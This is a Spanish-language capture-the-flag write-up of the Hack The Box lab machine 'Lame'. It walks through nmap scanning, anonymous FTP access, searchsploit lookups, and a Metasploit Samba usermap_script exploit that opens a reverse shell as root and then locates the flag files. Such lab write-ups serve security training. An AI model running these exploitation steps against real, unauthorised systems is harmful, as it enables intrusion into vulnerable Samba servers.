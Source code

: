 Creamos los directorio de trabajo con el nombre de la maquina en nuestro caso Lame

```ruby
mkdir Lame
```

## Reconocimiento de Puertos

Lanzamos un ping para comprobar que tenemos conexión desde nuestra maquina 

```ruby
ping 10.10.10.3
```

Comprobamos la versión del sistema operativo que tenemos si tenemos un ttl de 63 se trata de una maquina Linux.

### Reconocimientos Nmap

Lanzamos la herramienta Nmap para ver los puertos disponibles que se encuentran abiertos,
es un escaneo agresivo ya que estamos en un entorno controlado

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

La salida la ponemos en un archivo con formato grepeable para poder buscar luego 

Los puertos son los siguientes:

```ruby
PORT      STATE   SERVICE
21/tcp    open    ftp
22/tcp    open    ssh
139/tcp   open    netbios-ssn 
445/tcp   open    microsoft-ds
3632/tcp  open    distccd
```

Realizamos un escaneo mas exhaustivo para comprobar que versión corre en ese puerto

```ruby
nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```

```ruby

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-06-24T12:37:57-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h00m37s, deviation: 2h49m45s, median: 34s
```


## Analizamos los puertos

#### Puerto ssh :
En un principio no voy a tocarlo porque todavía no se ningunas credenciales validas por lo tanto es perder un poco el tiempo

##### Puerto ftp:
Intento conectarme al servicio ftp con el usuario "anonymous" ya que nos ha reportado que existe y es valido 

```ruby
ftp 10.10.10.3
```

Podemos ver que nos reporta que hemos podido acceder con éxito pero comprobando si existe algún archivo y no nos muestra nada.

```ruby
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55067|).
150 Here comes the directory listing.
226 Directory send OK.
ftp> 

```

Buscamos exploit relacionados con la version vsftpd 2.3.4 en search exploit  y en google 
encontramos lo siguiente:

```ruby 
searchsploit vsftpd 2.3.4

vsftpd 2.3.4 - Backdoor Command Execution                                         | unix/remote/49757.py

vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                            | unix/remote/17491.rb
```

```ruby 
searchsploit -m unix/remote/49757.py
```

Tras probar los dos no nos devuelve nada por lo tanto podemos decir que es un  posible "rabbit hole"

#### Puerto 139 y 445 
Al tener la versión de Samba voy a comprobar en searchsploit si tenemos algun tipo de vulnerabilidad

```ruby
searchsploit Samba 3.0.20
```

Encontramos las siguientes vulnerabilidades

``` ruby
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                            | multiple/remote/10095.txt

Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb

Samba < 3.0.20 - Remote Heap Overflow                                             | linux/remote/7701.txt

Samba < 3.6.2 (x86) - Denial of Service (PoC)                                     | linux_x86/dos/36741.py

```

vemos que tenemos un rce que esta en mestasploit voy a probar explotarlo con metasploit 

```ruby
msf6 > exploit(multi/samba/usermap_script) > 
```

Configuramos el exploit con nuestros datos
```ruby
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.6
LHOST => 10.10.14.6
```

Cuando lo configuramos lo ejecutamos con el comando siguiente

```ruby
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Command shell session 1 opened (10.10.14.3:4444 -> 10.10.10.3:56137) at 2023-06-27 02:58:54 -0400
```
como podemos ver hemos entablado una rever shell 

Podemos hacer el tratamiento de la TTY para que quede una terminal mas bonita 

```ruby
script /dev/null -c bash
```

#### Buscamos las flag

Como podemos ver accedemos como usuario root por lo tanto tenemos acceso a todos los ficheros .

Vamos a buscar las flag con el siguiente comando 

```ruby
find / -name "root.txt" -o -name "user.txt"
```
Nos devuelve dos ficheros que existen en el equipo en los siguientes directorios 

```ruby
/home/makis/user.txt
/root/root.txt
```